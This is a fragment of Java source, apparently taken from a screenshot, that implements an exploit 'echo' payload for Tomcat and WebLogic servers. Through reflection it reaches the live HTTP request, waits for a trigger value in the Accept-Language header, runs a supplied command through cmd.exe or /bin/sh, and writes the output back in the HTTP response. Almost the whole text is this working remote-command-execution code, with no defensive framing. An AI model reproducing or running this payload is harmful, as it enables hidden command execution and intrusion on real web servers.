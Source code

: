 ```java
            WeblogicEchoTemplate();
            return;
        } catch (Exception ignored){

        }
    }
    private static void tomcat() {
        try{
            Thread[] var5 = (Thread[])getFV(Thread.currentThread().getThreadGroup(), "threads");
            for (Thread var7 : var5) {
                if (var7 != null) {
                    String var3 = var7.getName();
                    if (!var3.contains("exec") && var3.contains("http")) {
                        Object var1 = getFV(var7, "target");
                        if (var1 instanceof Runnable) {
                            try {
                                var1 = getFV(getFV(getFV(var1, "this$0"), "handler"), "global");
                            } catch (Exception var13) {
                                continue;
                            }
                            List var9 = (List) getFV(var1, "processors");
                            for (Object var11 : var9) {
                                var1 = getFV(var11, "req");
                                Object var2 = var1.getClass().getMethod("getResponse").invoke(var1);
                                String var15 = (String) var1.getClass().getMethod("getHeader", String.class).invoke(var1, "Accept-Language");
                                if (var15 != null && var15.equals("zh-CN,zh;q=1.9")) {
                                    var2.getClass().getMethod("setStatus", Integer.TYPE).invoke(var2, new Integer(200));
                                    String[] var12 = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};
                                    writeBody(var2, (new Scanner((new ProcessBuilder(var12)).start().getInputStream())).useDelimiter("\\A").next().getBytes());
                                    return;
                                }
                            }
                        }
                    }
                }
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    private static void writeBody(Object var0, byte[] var1) throws Exception {
        Object var2;
        Class var3;
        try {
            var3 = Class.forName("org.apache.tomcat.util.buf.ByteChunk");
            var2 = var3.newInstance();
            var3.getDeclaredMethod("setBytes", byte[].class, Integer.TYPE, Integer.TYPE).invoke(var2, var1, new Integer(0), new Integer(var1.length));
            var0.getClass().getMethod("doWrite", var3).invoke(var0, var2);
        } catch (NoSuchMethodException var5) {
            var3 = Class.forName("java.nio.ByteBuffer");
            var2 = var3.getDeclaredMethod("wrap", byte[].class).invoke(var3, var1);
            var0.getClass().getMethod("doWrite", var3).invoke(var0, var2);
        }

    }

```
